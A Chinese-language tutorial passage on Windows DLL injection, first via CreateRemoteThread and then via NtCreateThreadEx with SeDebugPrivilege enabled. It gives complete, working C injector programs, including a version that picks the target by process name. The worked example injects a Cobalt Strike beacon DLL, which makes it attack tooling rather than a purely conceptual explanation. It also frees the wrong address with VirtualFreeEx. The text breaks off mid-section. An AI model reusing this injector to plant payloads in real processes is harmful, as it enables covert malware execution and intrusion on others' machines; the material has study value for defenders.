# DLL Injection By CreateRemoteThread

目标：使用 CreateRemoteThread 函数将自定义DLL注入到指定的正在运行的进程中。

## 注入原理

通常，在自己的程序中加载DLL程序是通过 ` LoadLibrary()` 函数实现。

 ` LoadLibrary()` 函数结构：

> https://learn.microsoft.com/zh-cn/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya

```c
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
```

- `[in] lpLibFileName` : 模块的名称。可以是 (.dll文件) 的库模块，也可以是 (.exe文件) 的可执行模块。
  - 如果字符串指定完整路径，则函数仅搜索该模块的路径。
  - 如果字符串指定相对路径或没有路径的模块名称，则函数使用标准搜索策略查找模块
  - 如果函数找不到模块，该函数将失败。 指定路径时，请务必使用反斜杠 (\) ，而不是正斜杠 (/) 。 
- 返回值：
  - 如果函数成功，则返回值是模块的句柄。
  - 如果函数失败，则返回值为 NULL。

当在进程中加载DLL后，可以通过`GetProcAddress()` 函数获取到指定的函数的地址。

那如果想让其他正在系统中运行的程序加载自定义的DLL如何实现呢？

同理，只需要让正在运行的进程调用 ` LoadLibrary()`加载自定义DLL文件。而 `CreateRemoteThread()` 函数可以在任意进程的虚拟地址空间中创建一个线程。

 `CreateRemoteThread()` 函数结构：

> https://learn.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread

```c
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

- **hProcess**:  要在其中创建线程的进程句柄。
- **lpThreadAttributes**: 指向 SECURITY_ATTRIBUTES 结构的指针，该结构指定新线程的安全属性：如果为 NULL，线程将具有默认的安全属性，句柄不能被子进程继承
- **dwStackSize**: 堆栈的初始大小（以字节为单位），如果此参数为 0 (零) ，则新线程将使用可执行文件的默认大小。
- **lpStartAddress**: 指向由线程执行的 **LPTHREAD_START_ROUTINE** 类型的应用程序定义函数的指针，表示远程进程中线程的起始地址。 函数必须存在于远程进程中。也就是远程线程的回调函数
- **lpParameter**: 指向要传递给线程函数的变量的指针。即函数的参数的指针
- **dwCreationFlags** : 控制线程创建的标志。
- **lpThreadId**: 指向接收线程标识符的变量的指针。如果此参数为 **NULL**，则不返回线程标识符。
- 返回值：
  - 如果函数成功，则返回值是新线程的句柄。
  - 如果函数失败，则返回值为 **NULL**。


## 注入步骤



思路：

1. 获取到需要/可以注入的进程的PID
2. 打开被注入的指定进程
3. 在进程空间中开辟内存，将需要注入的DLL文件的名称写到内存中
4. 使用`CreateRemoteThread()` 函数创建远程线程
   1. 通过 `GetProcAddress()` 函数获取远程线程调用函数的地址。这里需要获取 ` LoadLibrary()`函数地址
   2. 传入函数参数，即需要加载的DLL的名称
5. `WaitForSingleObject()` 函数等待远程线程加载创建完毕
6. 使用`GetExitCodeThread()` 函数获取加载的DLL的首地址
7. 关闭存放DLL名称的内存空间


具体步骤：

准备：

被注入的程序： fg.exe(x64)

注入的DLL：CS生成的 unstage DLL(x32)

注入进程：

1、获取到需要/可以注入的进程的PID

略


2、打开指定的进程内存空间

```c
//进程PID的获取，此处设定成固定值
int pid = 2668;
	
//打开指定进程
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

`OpenProcess()`函数结构：

打开一个现有的本地进程对象。

> https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess

```
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
```

- **dwDesiredAccess** ： 对进程对象的访问。此访问权限根据进程的安全描述符进行检查。PROCESS_ALL_ACCESS ：流程对象的所有可能访问权限。
- **bInheritHandle**：如果此值为 TRUE，则此进程创建的进程将继承该句柄。否则，进程不会继承此句柄。
- **dwProcessId**：要打开的本地进程的标识符。


3、在进程空间中开辟内存，将需要注入的DLL文件的名称写到内存中

```c
//在打开的进程中开辟空间，用于存放DLL名称
LPVOID baseAddr = ::VirtualAllocEx(hProcess, NULL, sizeof(string_inject), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if (baseAddr == NULL)
{
printf("VirtualAllocEx failure\n");
}
printf("base address that VirtualAllocEx returns is 0x%x\n", (DWORD)baseAddr);
```


`VirtualAllocEx()`函数：

> https://learn.microsoft.com/zh-cn/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex

在指定进程的虚拟地址空间中保留、提交或更改内存区域的状态。

```c
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

- **hProcess**：进程的句柄。 该函数在此过程的虚拟地址空间中分配内存。
- **lpAddress**：指定要分配的页面区域的所需起始地址的指针。如果 *lpAddress* 为 **NULL**，则该函数确定分配区域的位置。
- **dwSize**：要分配的内存区域的大小（以字节为单位）。
  - 如果 *lpAddress* 为 **NULL**，则该函数将 *dwSize* 舍入到下一页边界。
  - 如果 *lpAddress* 不是 **NULL**，则该函数将分配包含 *lpAddress* 到 *lpAddress*+*dwSize* 范围内一个或多个字节的所有页面。
- **flAllocationType**：内存分配的类型。 **MEM_COMMIT** 为指定的保留内存页分配内存空间
- **flProtect**：要分配的页面区域的内存保护。 
- 返回值：
  - 如果函数成功，则返回值是页面分配区域的基址。
  - 如果函数失败，则返回值为 **NULL**。


```c
// 将DLL名称写入内存
DWORD NumberOfBytesWritten = 0;
if(!WriteProcessMemory(hProcess,baseAddr,string_inject,sizeof(string_inject),&NumberOfBytesWritten))
{
printf("WriteProcessMemory failure\n");
}
printf("NumberOfBytesWritten = 0x%x\n", NumberOfBytesWritten);
```


`WriteProcessMemory()` 函数：

> https://learn.microsoft.com/zh-cn/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory

将数据写入指定进程中的内存空间。要写入的整个空间必须是可访问的，否则操作将失败。

```c
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

- hProcess：要修改的进程内存的句柄。
- lpBaseAddress：指向写入数据的指定进程中的基地址的指针。就是从那个位置开始写
- lpBuffer：指向包含要写入指定进程地址空间的数据的缓冲区的指针。就是写什么
- nSize：要写入指定进程的字节数。就是写多少
- *lpNumberOfBytesWritten：指向变量的指针，该变量接收传输到指定进程的字节数。此参数是可选的。如果 lpNumberOfBytesWritten 为 NULL，则忽略该参数。就是最后具体写了多少字节


4、使用`CreateRemoteThread()` 函数创建远程线程

```c
// 创建远程线程
//参1是进程ID，参4是函数名称，参5是函数参数即DLL名称
HANDLE hRemoteThread = ::CreateRemoteThread(
    hProcess,
    NULL,
    0,
    (LPTHREAD_START_ROUTINE)LoadLibrary,
    baseAddr,
    0, 
    NULL);
if(!hRemoteThread)
{
    printf("CreateRemoteThread failure\n");
}
printf("CreateRemoteThread = 0x%x\n", hRemoteThread);
```

注意：这里创建远程线程时，如果想要调用其他函数，就需要使用 `GetProcAddress()` 函数在已加载的DLL中获取指定函数的地址。但是这里需要使用的是`LoadLibrary()` 函数，`LoadLibraryA` 存在于 `kernel32.dll` 中，这个模块总是被加载到每个进程中，并且碰巧也在每个进程中加载到相同的地址，且地址编号相同，所以就直接传入函数名即可调用。

若是其他函数，则需要：

```c
LPVOID addr = (LPVOID)GetProcAddress(GetModuleHandle(L”kernel32.dll”), “LoadLibraryA”);
if(addr == NULL) {
	printf(“Error: the LoadLibraryA function was not found inside kernel32.dll library.n”);
}
```

LoadLibrary  参数是一个字符串指针，告诉函数要加载的DLL的名称，而DLL名称在上面已经写入到了进程内存中


5、`WaitForSingleObject()` 函数等待远程线程加载创建完毕，使用`GetExitCodeThread()` 函数获取加载的DLL的首地址


```c
//等待线程函数结束， 获取线程退出码,即LoadLibrary的返回值，即dll的首地址
WaitForSingleObject(hRemoteThread, -1);
DWORD exitCode = 0;
if(!GetExitCodeThread(hRemoteThread,&exitCode))
{
    printf("GetExitCodeThread  failure\n");
    printf("errcode = %d\n", GetLastError());
}
printf("thread exitcode = 0x%x\n", exitCode);
```

`WaitForSingleObject()` 函数作用就是让程序暂停到此处，等待指定对象处于信号状态或超时。就是等到远程线程创建完毕在继续执行

当在进程中加载了自定义DLL后，还需要获取到DLL在进出中的句柄，这样才能调用DLL中的函数。GetExitCodeThread()函数是获取线程退出码的，这里也可获取线程结束时返回的DLL的首地址。

`GetExitCodeThread()`函数：

> https://learn.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-getexitcodethread

```
BOOL GetExitCodeThread(
  [in]  HANDLE  hThread,  //线程的句柄。
  [out] LPDWORD lpExitCode  //指向用于接收线程终止状态的变量的指针。
);
```

- hThread:线程的句柄
- lpExitCode:指向用于接收线程终止状态的变量的指针
- 返回值：
  - 如果该函数成功，则返回值为非零值。
  - 如果函数失败，则返回值为零。
- 注意：
  - 此函数立即返回。 如果指定的线程未终止并且函数成功，则返回的状态 **STILL_ACTIVE**。
  - 如果线程已终止且函数成功，则返回的状态为以下值之一：
    - [ExitThread](https://learn.microsoft.com/zh-cn/windows/desktop/api/processthreadsapi/nf-processthreadsapi-exitthread) 或 [TerminateThread](https://learn.microsoft.com/zh-cn/windows/desktop/api/processthreadsapi/nf-processthreadsapi-terminatethread) 函数中指定的退出值。
    - 线程函数的返回值。
    - 线程进程的退出值。

这里利用的就是线程函数的返回值。


6、关闭存放DLL名称的内存空间

```c
 VirtualFreeEx(hProcess,&NumberOfBytesWritten,0,MEM_RELEASE);  //清楚保存DLL名称的空间
```

`VirtualFreeEx()`函数：

```c
BOOL VirtualFreeEx(
  [in] HANDLE hProcess,
  [in] LPVOID lpAddress,
  [in] SIZE_T dwSize,
  [in] DWORD  dwFreeType
);
```

- hProcess：进程的句柄。要释放的空间在那个进程中
- lpAddress：指向要释放的内存区域的起始地址的指针。从哪里开始释放
- dwSize：要释放的内存区域的大小（以字节为单位）。释放多大
- dwFreeType：释放操作类型。MEM_RELEASE 释放占位符的指定页面区域或占位符


总代码：

```c
// ReomteThreadInjection.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"
#include "windows.h"
#include "stdio.h"
#include "iostream"


char string_inject[] = "c://beacon.dll";

int main(int argc, char* argv[])
{
	//进程PID的获取，此处设定成固定值
	int pid = 2668;
	
    //打开指定进程
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

	//在打开的进程中开辟空间，用于存放DLL名称
	LPVOID baseAddr = ::VirtualAllocEx(hProcess, NULL, sizeof(string_inject), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (baseAddr == NULL)
	{
		printf("VirtualAllocEx failure\n");
	}
	printf("base address that VirtualAllocEx returns is 0x%x\n", (DWORD)baseAddr);

	// 将DLL名称写入内存
	DWORD NumberOfBytesWritten = 0;
	if(!WriteProcessMemory(hProcess,baseAddr,string_inject,sizeof(string_inject),&NumberOfBytesWritten))
	{
		printf("WriteProcessMemory failure\n");
	}
	printf("NumberOfBytesWritten = 0x%x\n", NumberOfBytesWritten);

	// 创建远程线程
    //参1是进程ID，参4是函数名称，参5是函数参数即DLL名称
	HANDLE hRemoteThread = ::CreateRemoteThread(
        hProcess,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)LoadLibrary,
        baseAddr,
        0, 
        NULL);
	if(!hRemoteThread)
	{
		printf("CreateRemoteThread failure\n");
	}
	printf("CreateRemoteThread = 0x%x\n", hRemoteThread);

	//等待线程函数结束， 获取线程退出码,即LoadLibrary的返回值，即dll的首地址
	WaitForSingleObject(hRemoteThread, -1);
	DWORD exitCode = 0;
	if(!GetExitCodeThread(hRemoteThread,&exitCode))
	{
		printf("GetExitCodeThread  failure\n");
		printf("errcode = %d\n", GetLastError());
	}
	printf("thread exitcode = 0x%x\n", exitCode);
    
    VirtualFreeEx(hProcess,&NumberOfBytesWritten,0,MEM_RELEASE);  //清楚保存DLL名称的空间

	return 0;
}
```

执行效果：






还可以传入进程名，注入到指定的进程中：

先获取到进程ID和进程名

```c
#include "stdafx.h"
#include "windows.h"
#include "stdio.h"
#include <iostream>
#include <TlHelp32.h>

using namespace std;

int main(int argc, char* argv[])
{
	HANDLE hSnapshot; 
	PROCESSENTRY32 ProcessEntry; 
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32); 
	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0); 
    
	if(Process32First(hSnapshot, &ProcessEntry)) 
	{
		do 
		{ 
			cout << ProcessEntry.th32ProcessID << "\t" << ProcessEntry.szExeFile << "\n";
		} 
		while(Process32Next(hSnapshot, &ProcessEntry)); 
	}
	CloseHandle(hSnapshot);
	getchar();
	return 0;
}
```



然后接收传入的命令行参数

```
	char name[256];
	printf("Process Image Name:");
	scanf("%s", name);
	printf("%s\n",name);
```



在跟进进程名找到对应的进程ID

```c
BOOL GetProcessIdByProcessImageName(HANDLE* ProcessID,const TCHAR* ProcessImageName)
{
	BOOL IsOk = FALSE;
	HANDLE SnapshotHandle = INVALID_HANDLE_VALUE;
	PROCESSENTRY32 ProcessEntry32;
	ProcessEntry32.dwSize = sizeof(PROCESSENTRY32);
	int LastError = 0;
	
	SnapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	//TH32CS_SNAPPROCESS:Includes all processes in the system in the snapshot.To enumerate the processes,
	if (SnapshotHandle == INVALID_HANDLE_VALUE)
	{
		LastError = GetLastError();
		return FALSE;
	}
 
	if (!Process32First(SnapshotHandle, &ProcessEntry32))
	{
 
		LastError = GetLastError();
		goto Exit;
	}
 
	do
	{
		if (strcmp(ProcessEntry32.szExeFile, ProcessImageName) == 0)
		{
			*ProcessID = (HANDLE)ProcessEntry32.th32ProcessID;
			IsOk = TRUE;
			goto Exit;
		}
	} while (Process32Next(SnapshotHandle, &ProcessEntry32));
 
Exit:
 
	if (SnapshotHandle != INVALID_HANDLE_VALUE)
	{
		CloseHandle(SnapshotHandle);
	}
	SnapshotHandle = INVALID_HANDLE_VALUE;
	SetLastError(LastError);
	return IsOk;
 
}
```



结合起来

```c
#include "stdafx.h"
#include "windows.h"
#include "stdio.h"
#include "iostream"
#include <TlHelp32.h>

using namespace std;


//char string_inject[] = "c://1.dll";
char string_inject[256];

void GetProcessInfo()
{
	HANDLE hSnapshot; 
	PROCESSENTRY32 ProcessEntry; 
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32); 
	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0); 
    
	if(Process32First(hSnapshot, &ProcessEntry)) 
	{
		do 
		{ 
			cout << ProcessEntry.th32ProcessID << "\t" << ProcessEntry.szExeFile << "\n";
		} 
		while(Process32Next(hSnapshot, &ProcessEntry)); 
	}
	CloseHandle(hSnapshot);
	printf("================================\n");
}

BOOL GetProcessIdByProcessImageName(HANDLE* ProcessID,const TCHAR* ProcessImageName)
{
	BOOL IsOk = FALSE;
	HANDLE SnapshotHandle = INVALID_HANDLE_VALUE;
	PROCESSENTRY32 ProcessEntry32;
	ProcessEntry32.dwSize = sizeof(PROCESSENTRY32);
	int LastError = 0;
	
	SnapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	//TH32CS_SNAPPROCESS:Includes all processes in the system in the snapshot.To enumerate the processes,
	if (SnapshotHandle == INVALID_HANDLE_VALUE)
	{
		LastError = GetLastError();
		return FALSE;
	}
 
	if (!Process32First(SnapshotHandle, &ProcessEntry32))
	{
 
		LastError = GetLastError();
		goto Exit;
	}
 
	do
	{
		if (strcmp(ProcessEntry32.szExeFile, ProcessImageName) == 0)
		{
			*ProcessID = (HANDLE)ProcessEntry32.th32ProcessID;
			IsOk = TRUE;
			goto Exit;
		}
	} while (Process32Next(SnapshotHandle, &ProcessEntry32));
 
Exit:
 
	if (SnapshotHandle != INVALID_HANDLE_VALUE)
	{
		CloseHandle(SnapshotHandle);
	}
	SnapshotHandle = INVALID_HANDLE_VALUE;
	SetLastError(LastError);
	return IsOk;
 
}

BOOL Injection(int processPID)
{
	//进程PID的获取
	int pid = processPID;

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

	//线程函数的参数
	LPVOID baseAddr = ::VirtualAllocEx(hProcess, NULL, sizeof(string_inject), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (baseAddr == NULL)
	{
		printf("VirtualAllocEx failure\n");
	}
	printf("base address that VirtualAllocEx returns is 0x%x\n", (DWORD)baseAddr);

	// 写入内存
	DWORD NumberOfBytesWritten = 0;
	if(!WriteProcessMemory(hProcess,baseAddr,string_inject,sizeof(string_inject),&NumberOfBytesWritten))
	{
		printf("WriteProcessMemory failure\n");
	}
	printf("NumberOfBytesWritten = 0x%x\n", NumberOfBytesWritten);

	// 创建远程线程
	HANDLE hRemoteThread = ::CreateRemoteThread(hProcess,NULL,0,(LPTHREAD_START_ROUTINE)LoadLibrary,baseAddr,0, NULL);
	if(!hRemoteThread)
	{
		printf("CreateRemoteThread failure\n");
	}
	printf("CreateRemoteThread = 0x%x\n", hRemoteThread);

	//等待线程函数结束， 获取线程退出码,即LoadLibrary的返回值，即dll的首地址
	WaitForSingleObject(hRemoteThread, -1);
	DWORD exitCode = 0;
	if(!GetExitCodeThread(hRemoteThread,&exitCode))
	{
		printf("GetExitCodeThread  failure\n");
		printf("errcode = %d\n", GetLastError());
	}
	printf("thread exitcode = 0x%x\n", exitCode);

	VirtualFreeEx(hProcess,&NumberOfBytesWritten,0,MEM_RELEASE);

	return TRUE;
}

int main(int argc, char* argv[])
{
	GetProcessInfo();
	LPVOID PID = NULL;
	//char name[256]="fg.exe";

	char name[256];
	printf("Process Image Name:");
	scanf("%s", name);
	printf("%s\n",name);

	printf("DLL Path:");
	scanf("%s", string_inject);
	printf("%s\n",string_inject);

	GetProcessIdByProcessImageName(&PID,name);

	printf("%d\n",PID);

	BOOL isOK = Injection((int)PID);
	if(!isOK)
	{
		printf("Process Name No Ex!!");
	}

	return 0;
}
```






参考：

> https://resources.infosecinstitute.com/topic/using-createremotethread-for-dll-injection-on-windows/
>
> https://threathunterplaybook.com/hunts/windows/180719-DLLProcessInjectionCreateRemoteThread/notebook.html
>
> https://stackoverflow.com/questions/22750112/dll-injection-with-createremotethread
>
> https://github.com/smallzhong/drip-education-homework/blob/master/2015.6.3-%E8%BF%9C%E7%A8%8B%E7%BA%BF%E7%A8%8B%E6%B3%A8%E5%85%A5/RemoteThreadInject.cpp
>
> https://blog.csdn.net/qq_42021840/article/details/106098173
>
> https://github.com/tEngineer/RemoteThreadInjection/blob/master/dllinject_main.cpp
>
> Process Injection : T1055.001: Injecting DLL using the CreateRemoteThread https://ctfcracker.gitbook.io/process-injection/process-injection-part-2
>
> Using CreateRemoteThread  https://rediculousanddirtyprogramming.wordpress.com/using-createremotethread/
>
> CreateRemoteThread Shellcode Injection https://www.ired.team/offensive-security/code-injection-process-injection/process-injection#executing-shellcode-in-remote-process
>
> [Windows Process Injection: Writing the payload](https://modexp.wordpress.com/2018/07/12/process-injection-writing-payload/)
>
> 


# DLL Injection By NtCreateThreadEx

## 注入原理

在 Vista 之前，可以使用 `CreateRemoteThread`   技术进行 DLL 注入，自从 Vista 开始，加入了 `Session Separation` （会话分离）安全机制， 该机制确保包括服务在内的核心系统进程，始终在会话 0 中运行，而所有用户进程在不同的会话中运行。结果就是，在用户会话中运行的任何进程都无法将 DLL 注入系统进程，因为 `CreateRemoteThread` 无法跨会话边界工作。因此，如果目标进程与调用进程处于不同的会话中，CreateRemoteThread 将失败。

`NtCreateThreadEx` 是一个未记录的函数（NativeAPI），它为跨会话边界执行远程线程提供了完整的解决方案。它允许任何进程将 DLL 注入任何其他进程，而不管它在哪个会话中运行，只要具有足够的权限。

在Windows下`NtCreateThreadEx`是`CreateRemoteThread`的底层函数。

`NtCreateThreadEx`在32位下和64位下函数原型不一致。

```c++
#ifdef _AMD64_
typedef DWORD(WINAPI* PfnZwCreateThreadEx)(
    PHANDLE ThreadHandle,
    ACCESS_MASK DesiredAccess,
    LPVOID ObjectAttributes,
    HANDLE ProcessHandle,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    ULONG CreateThreadFlags,
    SIZE_T ZeroBits,
    SIZE_T StackSize,
    SIZE_T MaximunStackSize,
    LPVOID pUnkown);
 
 
#else
 
typedef DWORD(WINAPI *PfnZwCreateThreadEx)(
    PHANDLE ThreadHandle,
    ACCESS_MASK DesiredAccess,
    LPVOID ObjectAttributes,
    HANDLE ProcessHandle,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    BOOL CreateThreadFlags,
    DWORD  ZeroBits,
    DWORD  StackSize,
    DWORD  MaximumStackSize,
    LPVOID pUnkown);
 
#endif // DEBUG
```

使用 `NtCreateThreadEx`函数，需要从`NtDll`中以动态的方式导出使用。


## 注入实现

使用 NtCreateThreadEx 执行远程线程所涉及的步骤与 CreateRemoteThread 函数的步骤几乎相似。

步骤：

- 获取要注入的进程的PID
- 对目标进程进行提权，提权是为了执行特权指令
- OpenProcess 打开要注入的进程获取进程句柄
- VirtualAllocEx 在被注入的进程中申请读写内存
- WriteProcessMemory 写入DLL路径到申请的内存中
- VirtualProtectEx 修改内存保护属性，这一步可以不需要使用。
- 从Ntdll中获取NtCreateThreadEx地址，从Kernel32中获取LoadLibraryA/W地址
- NtCreateThreadEx 创建远程线程
- WaitForSingleObject 等待过程完成


1、获取要注入的进程的PID

这里是直接遍历所有进程信息，手动设置PID，也可以输入进程名，自动查找进程PID

```c
void GetProcessInfo()
{
	HANDLE hSnapshot;
	PROCESSENTRY32 ProcessEntry;
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (Process32First(hSnapshot, &ProcessEntry))
	{
		do
		{
			cout << ProcessEntry.th32ProcessID << "\t" << ProcessEntry.szExeFile << "\n";
		} while (Process32Next(hSnapshot, &ProcessEntry));
	}
	CloseHandle(hSnapshot);
	printf("================================\n");
}
```


2、对目标进程进行提权，提权是为了执行特权指令

> 用户权限设置和进程权限提升：https://blog.csdn.net/yockie/article/details/17029293

```c
// 使用这组函数提升权限的前提是进程具备该权限，只是访问令牌中没有启用该权限。如果进程的访问令牌中本身就没有关联该权限，这AdjustTokenPrivileges函数调用将会返回ERROR_NOT_ALL_ASSIGNED（值为1300L）的错误码。
BOOL EnableDebugPrivilege(BOOL fEnable)
{
	BOOL fOk = FALSE;
	HANDLE hToken;
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
        //获取 SeDebugPrivilege 权限
		TOKEN_PRIVILEGES tp;  //保存权限信息
		tp.PrivilegeCount = 1; // 要提升的权限个数
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid); // 通过权限名称查找uID
		tp.Privileges[0].Attributes = fEnable ? SE_PRIVILEGE_ENABLED : 0; //是否启用权限
		AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL); //获取指定的权限
		fOk = (GetLastError() == ERROR_SUCCESS); //代表成功
		CloseHandle(hToken);
	}
	return(fOk);
}
```


`OpenProcessToken`

打开与进程关联的[访问令牌](https://learn.microsoft.com/zh-cn/windows/desktop/SecGloss/a-gly)

> https://learn.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocesstoken

```
BOOL OpenProcessToken(
  [in]  HANDLE  ProcessHandle,
  [in]  DWORD   DesiredAccess,
  [out] PHANDLE TokenHandle
);
```

- ProcessHandle ：打开其访问令牌的进程句柄。 此过程必须具有PROCESS_QUERY_LIMITED_INFORMATION访问权限。
- DesiredAccess：指定一个 [访问掩码，该掩码](https://learn.microsoft.com/zh-cn/windows/desktop/SecGloss/a-gly) 指定对访问令牌的请求访问类型。 TOKEN_ADJUST_PRIVILEGES 在访问令牌中启用或禁用特权所必需的。
- TokenHandle：指向在函数返回时标识新打开的访问令牌的句柄的指针。


`GetCurrentProcess`

检索当前进程的伪句柄。

> https://learn.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentprocess

```
HANDLE GetCurrentProcess(); //返回值是当前进程的伪句柄。
```


`TOKEN_PRIVILEGES`结构体

**TOKEN_PRIVILEGES**结构包含有关[访问令牌](https://learn.microsoft.com/zh-cn/windows/desktop/SecGloss/a-gly)的一组特权的信息。

> https://learn.microsoft.com/zh-cn/windows/win32/api/winnt/ns-winnt-token_privileges

```
typedef struct _TOKEN_PRIVILEGES {
  DWORD               PrivilegeCount;
  LUID_AND_ATTRIBUTES Privileges[ANYSIZE_ARRAY];
} TOKEN_PRIVILEGES, *PTOKEN_PRIVILEGES;
```

- PrivilegeCount 这必须设置为 **Privileges** 数组中的条目数。

- Privileges[ANYSIZE_ARRAY]  指定 [LUID_AND_ATTRIBUTES](https://learn.microsoft.com/zh-cn/windows/desktop/api/winnt/ns-winnt-luid_and_attributes) 结构的数组。 每个结构都包含特权的 [LUID](https://learn.microsoft.com/zh-cn/windows/desktop/api/winnt/ns-winnt-luid) 和属性。

  - ```
    typedef struct _LUID_AND_ATTRIBUTES {
      LUID  Luid;  //指定 LUID 值。
      DWORD Attributes;  //指定 LUID 的属性。 
